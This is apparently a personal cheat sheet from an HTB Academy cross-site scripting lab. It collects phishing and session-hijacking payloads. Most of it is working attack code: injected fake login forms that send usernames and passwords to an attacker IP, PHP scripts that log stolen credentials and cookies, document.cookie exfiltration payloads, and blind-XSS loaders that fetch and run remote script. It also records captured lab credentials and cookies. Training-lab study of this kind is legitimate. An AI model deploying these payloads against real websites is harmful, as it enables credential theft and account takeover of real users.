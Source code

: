 ## HTB-ACADEMY (XSS)
## Ivan Medina
___
### PHISHING
___
```
%27%3E%3CD3v%0AonPoINTErENter+=+[8].find(confirm)%0Dx%3E%3Cscript%3Edocument.write('<h3>Please login to continue</h3><form action=http://10.10.14.19:82/interceptor.php><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();%3C/script%3E%3C!--v3dm0s
```
```
%27%3E%3CD3v%0AonPoINTErENter+=+[8].find(confirm)%0Dx%3E%3Cscript%3Edocument.write("Please login to continue");%3C/script%3E%3C!--v3dm0s
```
```
' onerror='document.write('<h3>Please login to continue</h3><form action=http://10.10.14.19:82/interceptor.php><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```
#### Crafting Login Payload

```
<!-- ' onerror='document.write('<h3>Please login to continue</h3>
<form action=http://10.10.14.19:82/interceptor.php>
<input type='username' name='username' placeholder='Username'>
<input type='password' name='password' placeholder='Password'>
<input type='submit' name='submit' value='Login'>
</form>
<!--') -->
```

#### BUG TEST 01

```
' onerror='document.write("")
```

#### Payload Login

```
<form action='http://10.10.14.19:82/interceptor.php'><input type='username' name='username' placeholder='Username'><input type='password' name='password' placeholder='Password'><input type='submit' name='submit' value='Login'></form>
```

```
' onerror='document.write("<h3>Please login to continue</h3>");alert()
```

#### Code to handle credentials

```
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://http://10.129.121.32/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

```
' onerror='document.write(`<h3 style=&quot;color:red&quot;>Please login to continue</h3>`);alert()
```

#### PAYLOAD TO GENERATE LOGIN

```
' onerror='document.write(`<h3 style=&quot;color:red&quot;>Please login to continue</h3><form action="http://10.10.14.19:82/interceptor.php"><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>`);
```

#### Error 1

Esta escribiendo un nuevo documento y se necesita que sea el mismo para que send.php lo pueda enviar

Only Payload
```
'><script>document.write('<h3 style=&quot;color:red&quot;>Please login to continue</h3><form action="http://10.10.14.19:82/interceptor.php"><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById("urlform").remove();</script><!--
```

URL Payload

```
http://10.129.121.32/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3+style%3D%26quot%3Bcolor%3Ared%26quot%3B%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3D%22http%3A%2F%2F10.10.14.19%3A82%2Finterceptor.php%22%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%22urlform%22%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--
```

GET /interceptor.php?username=admin&password=p1zd0nt57341myp455&submit=Login
___

### Session Hijacking
___

#### Payloads to grab cookies

```
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

#### Interceptor cookie

```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

#### Common Blind Payloads

```
<script src='http://10.10.14.19:8080'></script>
'><script src='http://10.10.14.19:8080'></script>
"><script src='http://10.10.14.19:8080'></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\''http://10.10.14.19:8080'\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//10.10.14.19:8080");a.send();</script>
<script>$.getScript("'http://10.10.14.19:8080'")</script>
```

#### Payload to grab cookie
```
<script>new Image().src="http://10.10.14.19:8080/intereceptor.php?c="+document.cookie;</script>
```

#### Payloads tested
```
"><script src=http://10.10.14.19:8080/fulllname></script>
"><script src=http://10.10.14.19:8080/username></script>
"><script src=http://10.10.14.19:8080/url></script>
```

#### Payloads winner

```
"><script>new Image().src="http://10.10.14.19:8080/interceptor.php?c="+document.cookie;</script>
```
```
GET /interceptor.php?c=cookie=c00k1355h0u1d8353cu23d
```

#### Sills Assessment

#### Payloads and input

```
"><script src=http://10.10.14.19:8080/website></script>
```

#### Final Payload

```
"><script>new Image().src="http://10.10.14.19:8080/interceptor.php?c="+document.cookie;</script>
```